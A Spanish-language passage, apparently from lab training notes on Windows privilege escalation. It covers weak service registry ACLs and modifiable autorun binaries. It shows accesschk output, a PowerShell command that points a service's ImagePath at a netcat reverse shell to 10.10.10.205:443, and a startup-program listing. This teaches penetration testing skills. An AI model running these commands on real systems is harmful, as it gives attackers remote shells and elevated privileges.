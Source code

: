 También vale la pena buscar ACLs de servicios débiles en el registro de Windows. Podemos hacer esto usando `accesschk`.

### Checking for Weak Service ACLs in Registry

```r
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

### Changing ImagePath with PowerShell

Podemos abusar de esto usando el cmdlet de PowerShell `Set-ItemProperty` para cambiar el valor de `ImagePath`, usando un comando como:

```r
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

---

## Modifiable Registry Autorun Binary

### Check Startup Programs

Podemos usar WMIC para ver qué programas se ejecutan al iniciar el sistema. Si tenemos permisos de escritura en el registro para un binario dado o podemos sobrescribir un binario listado, podríamos escalar privilegios a otro usuario la próxima vez que ese usuario inicie sesión.

```r
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

Name     : OneDrive
command  : "C:\Users\mrb3n\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : Windscribe
command  : "C:\Program Files (x86)\Windscribe\Windscribe.exe" -os_restart
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : SecurityHealth
command  : %windir%\system32\SecurityHealthSystray.exe
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware User Process
command  : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware VM3DService Process
command  : "C:\WINDOWS\system32\vm3dservice.exe" -u
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```